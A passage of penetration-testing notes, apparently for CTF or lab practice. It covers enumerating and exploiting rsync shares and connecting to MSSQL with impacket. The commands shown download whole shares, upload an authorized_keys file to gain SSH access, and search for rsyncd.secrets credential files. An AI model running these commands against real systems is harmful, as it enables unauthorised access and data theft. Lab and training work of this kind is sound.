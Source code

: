 ````
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
````
- Enumerate shared folders
- An rsync module is essentially a directory share. These modules can optionally be protected by a password. 
- This options lists the available modules and, optionally, determines if the module requires a password to access:
````
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
````
- Manual Rsync
- List a shared folder
````
rsync -av --list-only rsync:/10.10.232.5/shared_name
````
- Copy all files to your local machine via the following command:
````
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
````
- If you have credentials you can list/download a shared name using (the password will be prompted):
````
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
````
- You could also upload some content using rsync (for example, in this case we can upload an authorized_keys file to obtain access to the box):
````
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
#full command syntax below
rsync -av id_rsa.pub rsync://rsync-connect@10.10.63.208/files/sys-internal/.ssh/authorized_keys
````
- Find the rsyncd configuration file:
````
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
````
- Inside the config file sometimes you could find the parameter `secrets file = /path/to/file` and this file could contains usernames and passwords allowed to authenticate to rsyncd.
## ms-sql-s port 1433
- Use `impacket mssqlclient.py` to connect
````
python mssqlclient.py ARCHETYPE/sql_svc@10.129.62.77 -windows-auth
````
- https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server







## Stuck
- https://book.hacktricks.xyz/
- https://guide.offsecnewbie.com/
